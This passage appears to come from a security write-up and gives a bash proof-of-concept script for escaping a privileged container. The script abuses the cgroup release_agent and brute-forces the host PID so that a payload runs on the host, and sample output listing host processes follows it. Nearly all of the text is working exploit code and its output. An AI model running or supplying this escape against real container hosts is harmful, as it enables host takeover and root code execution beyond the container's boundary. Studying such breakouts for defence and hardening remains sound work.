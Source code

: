 ```bash

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```

Executing the PoC within a privileged container should provide output similar to:

```bash
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
root         5     2  0 11:25 ?        00:00:00 [kworker/0:0-events]
root         6     2  0 11:25 ?        00:00:00 [kworker/0:0H-kblockd]
root         9     2  0 11:25 ?        00:00:00 [mm_percpu_wq]
root        10     2  0 11:25 ?        00:00:00 [ksoftirqd/0]
...
```